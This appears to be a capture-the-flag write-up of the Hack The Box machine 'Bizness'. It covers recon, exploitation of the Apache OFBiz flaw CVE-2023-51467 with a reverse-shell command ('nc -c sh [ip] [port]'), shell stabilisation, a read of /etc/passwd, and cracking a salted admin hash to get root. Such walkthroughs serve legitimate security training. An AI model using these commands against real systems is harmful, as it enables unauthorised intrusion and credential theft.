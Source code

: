 # Bizness
Hello, today we will be taking on Bizness, an easy box from HTB.
- [Recon](https://github.com/0x7ax/Bizness?tab=readme-ov-file#recon)
- [Exploit | Initial foothold](https://github.com/0x7ax/Bizness?tab=readme-ov-file#exploit--initial-foothold)
- [Privesc](https://github.com/0x7ax/Bizness?tab=readme-ov-file#privesc)
- [Conclusion](https://github.com/0x7ax/Bizness?tab=readme-ov-file#conclusion)
# Recon
We start with an nmap scan:

`$ nmap -sC -sV -oN nmap/Bizness 10.10.11.252`

![nmap result](https://github.com/0x7ax/Bizness/assets/91915054/59b24c86-a247-457d-9b49-b92a9241043a)
Found SSH, HTTP, and HTTPS

Since we found a hostname, we can add it to /etc/hosts using the following command:

`$ sudo echo “10.10.11.252 bizness.htb” >> /etc/hosts`

Followed HTTPS, found the following on the homepage:
- Address: A108 Adam Street, NY 535022, USA
- Phone #: +1 5589 55488 55
- Email: info@bizness.htb
  
Doesn't seem to take us anywhere.

Then did a gobuster to see if there are any other directories:

`$ gobuster dir -u https://bizness.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -k`

I used the flags “--wildcard” and “-k” to avoid errors. Oddly, the sizes were 0 but if we got a redirection then that means we got a valid directory.

Furthermore, we found a /webtools directory that isn't default on all sites, so we can check it out

Turns out it's an Apache OFBiz portal with the version down on the right (18.12)

![OFBiz portal](https://github.com/0x7ax/Bizness/assets/91915054/07a3e27b-7ae1-488d-ae14-52bd9cd5101e)

A quick Google search tells us that it's vulnerable to CVE-2023-51467, which is an interesting vulnerability that will grant us RCE. Feel free to read about it more [here](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)

# Exploit | Initial foothold

I found an exploit online that will run a command on the vulnerable service, hoping that I can get a reverse shell back 

I used [exploit.py](exploit.py), creds go to the owner. 

*Change to your desired ip and port*

- Set up a listener

`$ nc -lvnp [port]`

- Run the following command

`$ python3 exploit.py --url https://bizness.htb --cmd "nc -c sh [ip] [port]"`

![exploit](https://github.com/0x7ax/Bizness/assets/91915054/b63c4476-d35a-46b2-b7f8-dcf9de4b8caa)

We got a reverse shell! Now we have to stabilize it

`$ python3 -c ‘import pty;pty.spawn("/bin/bash")’`

Ctrl+Z

`$ stty raw -echo`

`$ fg` (click Enter twice here)

`$ export TERM=xterm`

Now, you have a full shell.

![stable](https://github.com/0x7ax/Bizness/assets/91915054/cc9eb29b-ce87-4b0a-ae0f-ad475c522e57)

We have spawned in /opt/ofbiz, which is an interesting directory, but first let's grab user.txt from /home/ofbiz

a quick command tells us that only ofbiz and root have shells so it only makes sense that ofbiz has the user.txt file

`$ cat /etc/passwd | grep bash`

![user.txt](https://github.com/0x7ax/Bizness/assets/91915054/1f0479a0-c4b8-40dc-b0fe-af927b5a9e38)

# Privesc

First, I ran [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/31aed5cd927c57d80c91f03a54c15836ad98c506/linPEAS), which didn't tell me much except for the files in /opt/ofbiz

So I digged deeper and found an interesting file that has a SHA1 hash. 

![AdminUserLoginData.xml](https://github.com/0x7ax/Bizness/assets/91915054/7111be9a-b8c2-45e8-bf11-bf7bf56f4c0b)

We found a SHA1 hash: 47ca69ebb4bdc9ae0adec130880165d2cc05db1a

The problem with that hash is that it needs a salt which doesn't appear in the file

With more recon, we found an Apache Derby database which has the salt for the hash above

![derby database](https://github.com/0x7ax/Bizness/assets/91915054/b3e88449-f7be-442b-a060-25044556f1e5)

We can see that the hash for user admin is $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

We can crack this using john or hashcat, but a more efficient way would be to use a script that encrypts the contents of rockyou.txt and compare it to the string we have

For that I used the following python script which I found online: [pass.py](pass.py), also credits go to the owner

![pass.py](https://github.com/0x7ax/Bizness/assets/91915054/9883b0a3-0794-4eec-880a-b26041ff0c44)

 We got a hit, *monkeybizness*
 
 Use the following command and enter the password above to get root access
 
 `$ su root` 
 
 ![root](https://github.com/0x7ax/Bizness/assets/91915054/b34f5cf9-b38d-45e1-b00a-dd132ac78d69)
 
# Conclusion
Bizness was an easy HTB box that has a vulnerable OFbiz service which leads to RCE. 

This is for educational purposes only
